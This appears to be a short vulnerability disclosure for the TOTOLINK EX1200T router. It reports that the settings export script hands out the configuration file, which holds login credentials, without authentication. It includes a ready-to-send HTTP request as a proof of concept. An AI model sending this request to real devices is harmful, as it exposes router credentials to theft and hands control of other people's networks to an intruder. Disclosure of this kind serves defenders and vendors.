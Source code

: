 # TOTOLINK EX1200T LEAK

## Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

The attacker can get the **apmib** configuration file `Config-EX1200T-xxxxxxxx.dat` without authorization, username and password can be found in the decoded file.

## PoC

```
GET /cgi-bin/ExportSettings.sh HTTP/1.1
Host: 192.168.0.1
Content-Length: 0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
Connection: close
```

